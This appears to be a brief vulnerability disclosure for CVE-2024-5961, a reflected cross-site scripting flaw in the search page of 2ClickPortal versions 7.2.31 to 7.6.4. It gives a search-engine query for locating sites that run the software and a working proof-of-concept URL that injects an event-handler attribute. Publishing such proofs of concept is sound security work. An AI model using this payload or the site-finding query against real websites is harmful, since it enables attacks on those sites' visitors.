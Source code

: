 # CVE-2024-5961
Reflected XSS in 2ClickPortal
Version: from 7.2.31 through 7.6.4.
`intext:"Powered by 2ClickPortal"`

## PoC

```
https://[domain]/szukaj/?search_lang=pl&search=all&string=" onfocus=alert(1) autofocus="
```
